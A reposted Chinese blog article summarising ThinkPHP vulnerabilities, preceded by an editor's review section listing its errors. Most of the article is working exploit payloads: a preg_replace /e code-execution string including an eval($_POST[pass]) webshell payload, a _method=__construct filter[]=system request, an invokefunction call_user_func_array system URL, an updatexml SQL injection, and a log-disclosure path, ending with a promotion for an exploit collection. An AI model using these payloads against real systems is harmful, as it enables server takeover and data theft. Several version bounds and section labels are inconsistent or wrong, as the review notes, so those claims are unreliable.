## 核对与使用边界

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：含2.x preg_replace、3.x日志、5.x两类RCE与SQL、6.x session；多个边界不一致

代码与实验材料：作者明确最后ThinkPHP6未复现；部分章节为空，关键PoC只截图

来源证据范围：署名 CSDN bye_X 和原文链接，下载仅公众号回复

- **操作与副作用边界（1）**：漏洞类型串项；依据：“ThinkPHP6 SQL注入”实际描述 session 文件名/路径控制和写文件，且作者称未成功。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **操作与副作用边界（2）**：版本元数据抽成源码；依据：version 为 preg_replace 代码；5.0.23 方法覆盖写成低于5.0.23，控制器RCE却&lt;=5.0.23，边界互相错置。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **结论使用边界（3）**：载荷与行为不一致；依据：写 shell.php 段仅 id 命令；5.1 order by 段用了 ids\[...\] 的另一个 in 数组键型 PoC；2.x eval含转义大括号。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（4）**：空节和风险情报不足；依据：3.2.3 SQL只标题；下载工具无仓库/版本/哈希，不可当可核验复现附件。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ThinkPHP 漏洞总结（文末附 “中间件漏洞检测利用 EXP 集合” 下载）

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/59DJy3nUg3JC-Zm0GPFm5A)


ThinkPHP 介绍

ThinkPHP 是一个快速、兼容而且简单的轻量级国产 PHP 开发框架，诞生于 2006 年初，原名 FCS，2007 年元旦正式更名为 ThinkPHP，遵循 Apache2 开源协议发布，从 Struts 结构移植过来并做了改进和完善，同时也借鉴了国外很多优秀的框架和模式，使用面向对象的开发结构和 MVC 模式，融合了 Struts 的思想和 TagLib（标签库）、RoR 的 ORM 映射和 ActiveRecord 模式。


漏洞复现

**1、ThinkPHP2.x 远程代码执行漏洞**

ThinkPHP ThinkPHP 2.x 版本中，preg_replace 的 / e 模式匹配路由：

```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致输入参数被插入双引号中当做代码函数执行，因此造成任意代码执行漏洞。

在 ThinkPHP3.0 的版本中也没有修复此问题。

docker 拉一下 vulfocus 的 thinkphp2 环境，好用又方便



POC 尝试一波~~

```
/index.php?s=/index/index/aaa/${@phpinfo()}
```



进一步利用上传连一下马

POC

```
/index.php?s=/index/index/aaa/${${@eval($_POST[pass])\}\}
```



影响范围

ThinkPHP2.x

**2、ThinkPHP3.2.3 SQL 注入漏洞**

**3、ThinkPHP3 日志泄露**

直接访问日志目录，可以看到泄露的日志 thinkphp 日志文件。

```
/Application/Runtime/Logs/Home/21_04_20.log
```



影响范围

ThinkPHP3.1-3.2

**4、ThinkPHP5.0.23 远程代码执行漏洞**

在 ThinkPHP5.0.23 以前版本中，获取的 method 的方法中没有准确的处理方法名，因此可以调用 request 方法构造利用点。

抓包修改请求方式 POST，POC 利用, 写入 shell.php

POC

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

写入 shell.php





蚁剑连一波



影响范围

低于 ThinkPHP5.0.23 版本

**5、ThinkPHP5.0.21 远程命令执行漏洞**

Thinkphp5.x 版本中没有对路由中的控制器进行严格过滤，没有开启强制路由的情况下可以执行系统命令。

漏洞利用路径 poc

```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=命令参数
```





影响范围

5.x < 5.1.31, <= 5.0.23

**6、ThinkPHP5.1.X SQL 注入漏洞**

在 ThinkPHP5.1.23 之前的版本中存在 SQL 注入漏洞，该漏洞是由于程序在处理 order by 后的参数时，未正确过滤处理数组的 key 值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

POC 地址

```
index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`
```



影响范围

ThinkPHP 5.1.X

**6、ThinkPHP6 SQL 注入漏洞**

该漏洞可控制写入文件名与路径，在特定条件下可控制内容，远程执行命令。

因为在 thinkphp6 下 session 是默认关闭的，在这里是需要我们手动开启的，在 app/middleware.php 文件下。



修改 app

构造 poc



最后这里不知道是哪里出了问题创建不了，session 也开了，有哪位大佬帮忙指点一下。

下一章节 thinkphp 漏洞分析

作者：CSDN 博主「bye_X」。

原文链接：https://blog.csdn.net/yangbz123/article/details/115329314


获取资源

关注公众号

公众号

回复 “**漏洞**” 获取 中间件漏洞检测利用 EXP 集合

EXP 截图如下  





---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
